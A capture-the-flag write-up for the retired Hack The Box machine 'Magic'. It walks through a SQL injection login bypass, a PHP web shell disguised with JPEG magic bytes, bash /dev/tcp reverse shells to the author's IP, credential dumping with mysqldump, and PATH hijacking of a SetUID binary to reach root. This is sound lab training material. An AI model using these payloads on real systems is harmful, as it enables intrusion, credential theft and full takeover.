 # Magic

This is the write-up for the box Magic that got retired at the 22nd August 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.185    magic.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/magic.nmap 10.10.10.185
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the website are several images and one link that forwards to a login page on _login.php_.
By testing a basic **SQL Injection** statement in the password parameter, the login works and forwards to _upload.php_:
```
POST /login.php HTTP/1.1
Host: 10.10.10.185
(...)
username=testuser&password='+OR+1%3d1--+-
```
```
# URL decoded SQL Injection statement
' OR 1=1-- -
```

The page _upload.php_ is a feature that allows to upload images.

Creating a PHP shell script _(shell.php)_ and trying to upload it:
```
<?php echo "This is a test string"; system($_REQUEST['cmd']); ?>
```

After uploading, it shows an error message that tells that only JPGs, JPEG and PNG files are allowed.
The first few bytes **(Magic Bytes)** of any JPEG file can be taken and morphed together with _shell.php_ to resemble a JPEG file:
```
head -c 20 5.jpeg > jpeg_magicbytes
```
```
cat jpg_magicbytes shell.php > magic_shell.php.jpeg
```

Now it gets recognized as an image and successfully uploaded and can be found in the _images/uploads_ directory:
```
http://10.10.10.185/images/uploads/magic_shell.php.jpeg?cmd=whoami
```

The parameter takes commands and `whoami` got executed, which proofs command execution.
Lets use this to gain a reverse shell:
```
POST /images/uploads/magic_shell.php.jpeg HTTP/1.1
Host: 10.10.10.185
(...)
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/Magic_ is a file called _db.php5_ which contains credentials for a database:
```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

The MySQL binary is not installed, but the **mysqldump** command can be used to dump the contents of the database:
```
mysqldump -u theseus -p Magic
```

There is one table called _login_ and in there are credentials for the website login:
```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

The password is reused for the user _theseus_ on the box and it is possible to switch users:
```
su - theseus
```

### Privilege Escalation to root

After searching for non-default binaries with the **SetUID bit** set, the output does not look too suspicious:
```
find / -type f -perm -4000 2>/dev/null | grep -v snap
```

But when checking the `groups` of the user, there is a group called _users_ and this group owns the binary _/bin/sysinfo_ that has the **SetUID bit** set:
```
find / -group users -ls 2>/dev/null

-rwsr-x---   1 root     users       22040 Oct 21  2019 /bin/sysinfo
```

The binary outputs hardware, CPU, memory and disk information, so it probably executes other Linux commands.
Lets follow the **Syscalls** of the binary and look through the forks, if another command is executed with relative paths:
```
strace /bin/sysinfo 2>strace_sysinfo.txt

grep execve strace_sysinfo.txt
```
```
[pid 18965] execve("/usr/bin/lshw", ["lshw", "-short"],
[pid 18967] execve("/sbin/fdisk", ["fdisk", "-l"],
[pid 18969] execve("/bin/cat", ["cat", "/proc/cpuinfo"],
[pid 18971] execve("/usr/bin/free", ["free", "-h"],
```

All these binaries are not called with the absolute path, so we can choose one of them and create a binary with the same name to inject our own code into it.

Creating a reverse shell script in _/dev/shm_ and call it _free_:
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

> NOTE: It also works to call the script `cat`, `fdisk` or `lshw`.

Making it executable:
```
chmod +x free
```

Changing the **PATH environment** to add _/dev/shm_ at the beginning:
```
export PATH=/dev/shm:$PATH
```

Executing _/bin/sysinfo_:
```
/bin/sysinfo
```

After executing the binary, the `free` command will run from _/dev/shm_ and execute the reverse shell script.
The listener on my IP and port 9002 starts a connection as root!
